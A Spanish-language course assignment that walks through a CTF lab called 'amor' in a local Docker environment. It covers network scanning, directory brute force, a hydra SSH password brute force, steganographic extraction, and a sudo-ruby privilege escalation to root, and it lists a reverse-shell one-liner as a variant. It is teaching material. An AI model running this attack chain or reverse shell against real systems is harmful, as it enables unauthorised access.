#  Electiva - Habilidades Prácticas en el Ciberespacio
# CC Diego Edison Cabuya Padilla

# TALLER
1. Realizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.
2. Explicar en detalle cada uno de los comandos empleados en el anterior CTF; realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleadas, este punto amplia el ejercicio anterior.
3. Realice un diagrama de flujo de todo el procedimiento realizado.

# 1. HERRAMIENTAS EMPLEADAS

| Herramienta   | Definición | Funcionalidad | Casos de uso |
|---------------|------------|---------------|--------------|
| **VirtualBox** | Hipervisor de código abierto para virtualización. | Permite crear y gestionar máquinas virtuales. | Simulación de entornos seguros para pruebas de ciberseguridad. |
| **Kali Linux** | Distribución de Linux especializada en pruebas de penetración. | Incluye herramientas para hacking ético, análisis forense y pruebas de seguridad. | Auditorías de seguridad, análisis de vulnerabilidades, captura de tráfico. |
| **Docker** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Crea contenedores ligeros y reproducibles. | Despliegue de entornos de prueba rápidos para herramientas o servicios. |
| **unzip** | Comando para descomprimir archivos | Extrae el contenido de archivos comprimidos. | Acceso a archivos comprimidos que pueden contener pistas o malware. |
| **netdiscover** | Herramienta de descubrimiento de red basada en ARP. | Detecta dispositivos conectados a la red. | Reconocimiento de red para identificar objetivos en un entorno local. |
| **nmap** | Escáner de redes y puertos. | Descubre hosts activos, servicios, puertos abiertos y sistemas operativos. | Recolección de información previa a ataques (reconocimiento). |
| **gobuster** | Herramienta para fuerza bruta de URIs (directorios y archivos). | Descubre recursos ocultos en servidores web. | Identificación de paneles ocultos, backups o endpoints sensibles. |
| **hydra** | Herramienta de fuerza bruta para crackeo de contraseñas. | Intenta múltiples combinaciones de usuario/contraseña contra múltiples protocolos. | Pruebas de autenticación en servicios como SSH, FTP, HTTP, etc. |
| **SSH** | Protocolo seguro de acceso remoto. | Permite conectarse y controlar remotamente sistemas de forma cifrada. | Administración remota de servidores o sistemas vulnerables. |
| **file** | Comando que identifica el tipo de un archivo. | Determina el formato y contenido de un archivo. | Análisis inicial de archivos sospechosos o sin extensión. |
| **steghide** | Herramienta para ocultar/extraer datos dentro de imágenes o audio. | Implementa esteganografía con soporte para cifrado. | Extracción/ocultamiento de mensajes en archivos multimedia. |
| **Base64** | Sistema de codificación de datos en texto ASCII. | Codifica y decodifica datos binarios a texto plano. | Análisis de mensajes codificados u ocultos. |
| **echo** | Comando para mostrar texto o variables en consola. | Imprime contenido en pantalla, útil en scripts. | Verificación de variables o cadenas durante análisis o automatización. |
| **whoami** | Comando que muestra el nombre del usuario actual. | Identifica la cuenta activa en el sistema. | Verificación de privilegios actuales durante una sesión. |

# 2. COMANDOS EMPLEADOS

## 🔧 Alistamiento de herramientas

### `scp -r amor kali@192.168.1.12:/home/kali/Documents/`

- **a) Herramienta utilizada:** `scp`
- **b) Función del comando:** Copia recursivamente el directorio `amor` al host remoto.
- **c) Parámetros:**
  - `-r`: copia recursiva de directorios.
  - `amor`: carpeta origen.
  - `kali@192.168.1.12:/home/kali/Documents/`: usuario, IP y ruta de destino remoto.
- **d) Variantes:**
  - `scp archivo.txt user@host:/ruta/`: para copiar un solo archivo.
  - `scp -P 2222 archivo.txt user@host:/ruta/`: especifica un puerto diferente.
  - `scp -i llave.pem archivo.txt user@host:/ruta/`: uso de llave privada SSH.
- **e) Herramienta alterna:** `rsync`

---

### `sudo apt install docker.io`

- **a) Herramienta utilizada:** `apt`
- **b) Función del comando:** Instala Docker desde los repositorios de Ubuntu.
- **c) Parámetros:**
  - `sudo`: ejecución como superusuario.
  - `apt`: gestor de paquetes.
  - `install docker.io`: instalación del paquete Docker.
- **d) Variantes:**
  - `sudo apt-get install docker.io`
  - `sudo snap install docker`
  - `sudo curl -fsSL https://get.docker.com | sh` (instalación manual vía script)
- **e) Herramienta alterna:** `snap`, `yum` (en CentOS)



---

## 🚀 Despliegue del laboratorio

### `unzip AMOR.zip`

- **a) Herramienta utilizada:** `unzip`
- **b) Función del comando:** Descomprime el archivo `.zip` con la máquina virtual.
- **c) Parámetros:**
  - `AMOR.zip`: archivo comprimido a descomprimir.
- **d) Variantes:**
  - `unzip -l archivo.zip`: lista contenido sin extraer.
  - `unzip -d destino archivo.zip`: define directorio destino.
  - `unzip -o archivo.zip`: sobrescribe archivos existentes.
- **e) Herramienta alterna:** `7z`, `Ark`, `WinRAR`

---

### `./auto_deploy.sh amor.tar`

- **a) Herramienta utilizada:** Shell Script
- **b) Función del comando:** Ejecuta un script que despliega la máquina o entorno desde un archivo `.tar`.
- **c) Parámetros:**
  - `./auto_deploy.sh`: script en el directorio actual.
  - `amor.tar`: archivo de entrada o argumento para el script.
- **d) Variantes:**
  - `bash auto_deploy.sh archivo`
  - `sh auto_deploy.sh archivo`
  - `source auto_deploy.sh archivo`
- **e) Herramienta alterna:** `make`, `docker-compose`

---

## 🔎 Escaneo

### `ip add`

- **a) Herramienta utilizada:** `ip`
- **b) Función del comando:** Muestra las interfaces y direcciones IP de red.
- **c) Parámetros:**
  - `add`: revisión de la interfaz de red.
- **d) Variantes:**
  - `ip a`
  - `ip addr show
- **e) Herramienta alterna:** `ifconfig`



---

### `sudo netdiscover -i docker0 -r 172.17.0.0/24`

- **a) Herramienta utilizada:** `netdiscover`
- **b) Función del comando:** Descubre dispositivos en la red Docker.
- **c) Parámetros:**
  - `-i docker0`: especifica la interfaz de red.
  - `-r 172.17.0.0/24`: rango IP a escanear.
- **d) Variantes:**
  - `netdiscover -i eth0`
  - `netdiscover -P`: modo pasivo.
  - `netdiscover -r 192.168.1.0/24`
- **e) Herramienta alterna:** `arp-scan`, `nmap -sn`



---

### `sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2`

- **a) Herramienta utilizada:** `nmap`
- **b) Función del comando:** Escaneo rápido de puertos y servicios en la IP objetivo.
- **c) Parámetros:**
  - `--min-rate 5000`: aumenta velocidad de escaneo.
  - `-p-`: escanea todos los puertos.
  - `-sS`: escaneo SYN (stealth).
  - `-sV`: detección de versión de servicios.
- **d) Variantes:**
  - `nmap -A target`
  - `nmap -Pn -p80,443 target`
  - `nmap -T4 target`
- **e) Herramienta alterna:** `masscan`, `rustscan`



---

### `gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

- **a) Herramienta utilizada:** `gobuster`
- **b) Función del comando:** Fuerza bruta de directorios web.
- **c) Parámetros:**
  - `dir`: modo de búsqueda de directorios.
  - `-u`: URL del objetivo.
  - `-w`: wordlist a utilizar.
- **d) Variantes:**
  - `gobuster dns -d dominio.com -w lista.txt`
  - `gobuster vhost -u http://host -w lista.txt`
  - `gobuster fuzz -u http://host/FUZZ -w lista.txt`
- **e) Herramienta alterna:** `dirb`, `dirbuster`, `ffuf`

---

## 🔐 Conexión Hydra y SSH

### `hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`

- **a) Herramienta utilizada:** `hydra`
- **b) Función del comando:** Ataque de fuerza bruta contra SSH.
- **c) Parámetros:**
  - `-l carlota`: usuario objetivo.
  - `-P`: diccionario de contraseñas.
  - `ssh://`: protocolo.
  - `-t 10`: 10 tareas paralelas.
- **d) Variantes:**
  - `hydra -L users.txt -P passwords.txt ftp://IP`
  - `hydra -s 2222 ssh://IP`
  - `hydra -V -f ssh://IP`
- **e) Herramienta alterna:** `medusa`, `ncrack`



---

### `ssh carlota@172.17.0.3`

- **a) Herramienta utilizada:** `ssh`
- **b) Función del comando:** Acceso remoto cifrado.
- **c) Parámetros:**
  - `carlota@172.17.0.3`: usuario y dirección IP.
- **d) Variantes:**
  - `ssh -p 2222 user@host`
  - `ssh -i key.pem user@host`
  - `ssh -v user@host` (modo verbose)
- **e) Herramienta alterna:** `putty`, `mosh`



---

### `scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor`

- **a) Herramienta utilizada:** `scp`
- **b) Función del comando:** Copia un archivo remoto localmente.
- **c) Parámetros:**
  - `usuario@host:/ruta`: origen remoto.
  - `ruta local`: destino local.
- **d) Variantes:**
  - `scp -r carpeta user@host:/destino/`
  - `scp archivo user@host:.`
  - `scp -i clave.pem archivo user@host:/`
- **e) Herramienta alterna:** `rsync`, `sftp`

---

## 🕵️ Esteganografía y manipulación

### `steghide --extract -sf imagen.jpg`

- **a) Herramienta utilizada:** `steghide`
- **b) Función del comando:** Extrae contenido oculto en imagen.
- **c) Parámetros:**
  - `--extract`: modo extracción.
  - `-sf imagen.jpg`: archivo fuente.
- **d) Variantes:**
  - `steghide embed -cf imagen.jpg -ef secreto.txt`
  - `steghide info imagen.jpg`
  - `steghide --extract -sf imagen.jpg -p clave`
- **e) Herramienta alterna:** `zsteg`, `stegsolve`



---

### `echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo`

- **a) Herramienta utilizada:** `echo`, `base64`
- **b) Función del comando:** Decodifica una cadena Base64.
- **c) Parámetros:**
  - `echo "cadena"`: imprime la cadena.
  - `| base64 -d`: decodifica en binario.
  - `; echo`: imprime salto de línea.
- **d) Variantes:**
  - `echo cadena | base64`: codifica.
  - `cat archivo.txt | base64 -d`
  - `base64 -d archivo > salida.txt`
- **e) Herramienta alterna:** `openssl enc`, `CyberChef`



---

### `su oscar`

- **a) Herramienta utilizada:** `su`
- **b) Función del comando:** Cambia de usuario.
- **c) Parámetros:**
  - `oscar`: usuario al que se desea cambiar.
- **d) Variantes:**
  - `su - oscar`: inicia shell de login.
  - `sudo su - oscar`
  - `su` (sin argumentos, cambia a root)
- **e) Herramienta alterna:** `sudo -i`, `login`



---

### `sudo /usr/bin/ruby -e 'exec "/bin/bash"'`

- **a) Herramienta utilizada:** `ruby`
- **b) Función del comando:** Escalada de privilegios ejecutando un shell.
- **c) Parámetros:**
  - `-e`: evalúa el código Ruby inline.
  - `exec "/bin/bash"`: ejecuta shell Bash.
- **d) Variantes:**
  - `python -c 'import os; os.system("/bin/bash")'`
  - `perl -e 'exec "/bin/bash"'`
  - `bash -i >& /dev/tcp/host/port 0>&1`
- **e) Herramienta alterna:** `python`, `perl`, `awk`



---

### `whoami`

- **a) Herramienta utilizada:** `whoami`
- **b) Función del comando:** Muestra el usuario actual.
- **c) Parámetros:**
  - Sin parámetros adicionales.
- **d) Variantes:**
  - `id -un`
  - `logname`
  - `who am i`
- **e) Herramienta alterna:** `id`, `users`



# 3. DIAGRAMA DE FLUJO


